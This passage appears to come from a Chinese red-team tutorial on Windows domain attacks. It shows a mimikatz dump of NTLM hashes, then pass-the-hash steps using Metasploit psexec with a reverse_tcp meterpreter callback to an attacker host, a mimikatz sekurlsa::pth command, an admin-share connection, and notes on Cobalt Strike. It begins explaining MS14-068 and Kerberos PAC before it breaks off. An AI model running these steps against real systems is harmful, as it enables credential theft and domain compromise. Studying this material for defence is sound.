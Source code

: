 SAMKey : 099d1915db1b0e5cf41f1f0908dc7e17
 
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0
 
RID  : 000001f5 (501)
User : Guest
 
RID  : 000003e8 (1000)
User : liukaifeng01
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

1.2 hash 传递攻击 PTH （Pass the Hash)
1.msf里使用psexec模块
Default
msf5 exploit(multi/handler) > use exploit/windows/smb/psexec  //以root启动msf
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > set lhsot 192.168.64.133
lhsot => 192.168.64.133
msf5 exploit(windows/smb/psexec) > set lhost 192.168.64.133
lhost => 192.168.64.133
msf5 exploit(windows/smb/psexec) > set lport 443
lport => 443
msf5 exploit(windows/smb/psexec) > set rhost 192.168.52.138
rhost => 192.168.52.138
msf5 exploit(windows/smb/psexec) > set SMBUser Administrator
SMBUser => Administrator
msf5 exploit(windows/smb/psexec) > set SMBPass 8a963371a63944419ec1adf687bb1be5  //一般选择NTLM HASH
SMBPass => 8a963371a63944419ec1adf687bb1be5
msf5 exploit(windows/smb/psexec) > run

2.使用mimikatz
我们在目标机里放置mimikatz.exe 然后执行以下命令
Default
sekurlsa::pth /user:administrator /domain:"xxx.com" /ntlm:6542d35ed5ff6ae5e75b875068c5d3bc  //自行修改

之后便会弹出一个cmd窗口，在这个窗口里链接机器即可
Default
net use \\192.168.222.131\c$

3.使用cobalt strike
在cobalt strike里找到域控，然后使用psexec模块，选择一个本地hash即可。

2.MS14-068

这个洞的危害很大，可以让任意域用户提权到域管。
适用版本: server 2000以上
补丁: kb3011780

2.1 PAC

PAC是kerberos协议里用来解决用户权限功能所设计出的东西。
在kerberos协议里面，一个用户用自己的hash拿到了TGT，接着凭借着TGT拿到了TGS，接着用TGS去访问服务。看似只要hash正确，用户就能到处访问服务，但是所有服务都可以给这个用户所访问吗？肯定是不行的，所以微软在kerberos为了实现用户权限分级，采用了PAC。
PAC被设计为存在于TGT里面。完整的kerberos权限验证流程如下。
